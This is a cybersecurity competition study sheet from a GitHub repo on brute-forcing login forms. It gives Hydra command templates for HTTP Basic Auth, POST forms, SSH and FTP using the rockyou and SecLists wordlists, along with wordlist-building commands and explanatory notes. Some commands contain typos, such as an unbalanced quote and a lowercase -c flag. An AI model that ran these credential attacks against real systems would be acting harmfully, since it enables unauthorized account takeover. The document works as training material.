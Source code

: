 <[Back to Main Page](https://github.com/ChristopherFitzsimons/WorldSkills2022Cybersecurity)

# Brute Forcing Login Forms
Created by Bujitha Ponsuge



# Commands
The Following are commands that you can use with Hydra to brute force an Basic HTTP Auth Form

## Brute Forcing Basic HTTP Auth Forms Using Default Credentials using Hydra
|	Options		|	Description	|
|-----------|:-----------|
|-C |Allows to use Combined Wordlists|
|http-get|	This is the Request Method						|
|/| The Target Path

Combined Wordlist

```console
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <Target IP> -s <PORT> http-get /
```

Username/Password Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

Username Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -p <PASSWORD> -u -f Target IP> -s <PORT> http-get /
```

Password Brute Force

```console
hydra -l <USERNAME> -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

# Web Forms/Login Forms Brute Forcing using **Hydra**

Following Commands are useful to brute force Login Forms (Admin Panels etc..) using the Hydra Module <font color=lightgreen> **http[s]-post-form**</font> 

> To Determine if the **http[s]-post-form** is the correct module to use. Type something into the login form and check if the URL has any of the inputs that you put in or if the URL change in anyway, If the URL does not change then the Web Application will be using an POST form. If the URL change and or have any of our inputs then its an GET form.
> 

Combined Wordlist

```console
hydra -c /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```

Username/Password Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```

Password Brute Force

> NOTE: Try default usernames that are often used in admin panels.
>  admin,administrator,wpadmin, root etc.

```console
hydra -l admin -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```
# PLACEHOLDER

# Useful Commands
The following commands can help if you want to create a personalized wordlist


```console
sed -ri '/^.{,7}$/d' file.txt
```
This command will remove anything that is shorter than eight characters 
```console
sed -ri '/[!-/:-@\[-`\{-~]+/!d' file.txt
```
This command will remove anything that does not contain special characters
```console
sed -ri '/[0-9]+/!d' file.txt
```
This will remove anything that has no numbers

```console
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy Name-of-target > file.txt
```

This tool can be used to create a custom username wordlist, using an name of an user.

# Service Authentication Brute Forcing (SSH & FTP)

[!] Use This command if you created an world-list and password-list based of an username.
```console
hydra -L username-list -P password-list -u -f ssh://<TargetIP:Port> -t 4 
```

```console
hydra -l username-list -P password-list ftp://<FTPIP>
```

## Notes

Brute Forcing is basically an method of attempting to attackers trying many passwords and usernames with hopes of eventually guessing the correct one using specialized tools and public wordlists that contains default passwords and usernames that are used by many users.

Since most passwords are not stored in clear text documents but instead hashed as hash values on files, an Brute Force needs to go through a list of passwords and try to match them with an hash value and once the hash value has been matched it would then essentially show them to the attacker to use. This is called offline brute-forcing.

The Above commands are used for online brute-forcing and is mainly used for brute forcing website's login forms.
Since most Websites would always have an login area for users including administrators, either hidden or in plain sight in some if not most cases, and since most usernames can be recognized easily and since majority of users wont use complex passwords since its harder to remember, it allows attackers to easily gain access into accounts as long as proper enumeration is done so they can get an good grip on it's system.

Variety of tools and methods can be used for login brute forcing such as:

- Hydra
- Medusa
- john the Ripper
- wfuzz

and many more.

Many web servers that are currently active still uses BAsic HTTP AUTH scheme, which is essentials transmits credentials and passwords using Base64 encodings.
